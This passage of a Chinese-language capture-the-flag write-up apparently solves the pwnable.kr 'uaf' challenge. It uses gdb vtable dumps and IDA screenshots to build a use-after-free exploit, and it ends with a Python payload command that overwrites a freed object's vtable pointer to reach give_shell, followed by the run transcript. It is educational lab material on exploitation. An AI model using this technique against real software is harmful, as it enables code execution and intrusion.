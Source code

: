 由于虚函数表地址在对象首部，所以这里虚函数表地址就是 `0x401570`。我们继续看虚函数表：

```
(gdb) x/8a 0x401570
0x401570 <_ZTV3Man+16>:    0x40117a <_ZN5Human10give_shellEv>    0x4012d2 <_ZN3Man9introduceEv>
0x401580 <_ZTV5Human>:    0x0    0x4015f0 <_ZTI5Human>
0x401590 <_ZTV5Human+16>:    0x40117a <_ZN5Human10give_shellEv>    0x401192 <_ZN5Human9introduceEv>
0x4015a0 <_ZTS5Woman>:    0x6e616d6f5735    0x0
```

用 `a` 可以把函数名显示出来，可以看到 `Man` 和 `Human` 的 `give_shell` 虚函数地址相同，而 `introduce` 不同，这是符合 C++ 虚函数机制的：私有虚函数不能被继承，但是会在子类的虚函数表中出现。换句话说，子类调用的本质上还是父类的虚函数。

接下来用 IDA 分析，可以看到输入 `1` 的时候执行：

![图 2](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/PwnkrToddler/2.png)

也就是两个 `introduce`，那么这里的 `v12` 和 `v13` 就可以确定是对应于 `m` 和 `w` 的虚指针了，之后转换为指针再 + 8，正好就是调用 `vtable + 8` 处的函数即 `introduce`。那么如果我们想让它执行位于 `vtable + 0` 的 `give_shell`，只需要在这句执行前让 `vtable` 的值减少 8 就行了。

而我们前面已经读到了 `vtable` 的值 `0x401570`，减 8 就是 `0x401568`。

说了这么多，怎么利用 `use`、`after` 和 `free` 三个过程来修改 `vtable` 值呢？我们知道，对于一块 `free` 操作释放掉的内存，仍然可能存在一个指针是指向它的，这个指针一般被称作悬空指针 `dangling pointer`。在这里，`m` 和 `w` 就属于悬空指针。

如果在这时，我们调用 `after` 过程，即分配一个**等长**的内存区域给 `data`，那么 `w` 所指的内存区域就会被分配。如果再次 `after`，那么 `m` 所指的内存区域也会被分配，这是由 `new/malloc` 的性质决定的。

现在，假如我们给 `data` 写入的是 `0x401568`，并且调用 `use` 过程，那么就会执行 `m->introduce()`，这会访问到 `0x401568 + 8 = 0x401570` 处的函数指针，恰好是 `m` 的 `vtable + 0` 处，也就变成了 `m->give_shell()`。

那么只剩下一个问题了，就是我们要分配多大的空间给 `data`，这在 IDA 中很容易发现：

![图 3](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/PwnkrToddler/3.png)

`0x18` 字节，也就是 24 字节。最终 payload（注意地址是三十二位的）：

```shell
$ python -c 'print"\x68\x15\x40"+"\x00"*5' > /tmp/payload
$ ./uaf 24 /tmp/payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
```

